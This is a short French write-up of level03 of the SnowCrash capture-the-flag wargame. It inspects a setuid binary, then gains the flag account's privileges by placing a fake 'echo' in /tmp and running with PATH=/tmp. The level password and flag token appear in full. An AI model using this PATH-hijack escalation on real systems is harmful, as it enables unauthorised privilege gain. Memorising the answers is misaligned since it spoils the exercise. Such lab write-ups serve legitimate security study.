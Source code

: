 # LEVEL03

**LOGIN: level03**

**PASSWORD: kooda2puivaav1idi4f57q8iq**

----

Cette fois on a un binaire et un setuid: 
```
level03@SnowCrash:~$ ls -l ; echo ;  file level03

-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03

level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

De `strings level03`  on sort cette ligne d'intéressent : `/usr/bin/env echo Exploit me`

De `nm level03` : ` U system@@GLIBC_2.0`

De `strace -f -s 1000 ./level03`:   `execve("/usr/bin/env", ["/usr/bin/env", "echo", "Exploit", "me"], [/* 18 vars */]) `



Du coup suffit de changer le path, et le nom du binaire qu'on veut faire exec avec les droits suid : 

```
cp  /bin/getflag /tmp/echo
PATH=/tmp ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
``` 

**TOKEN = qi0maab88jeaj46qoumi7maus**
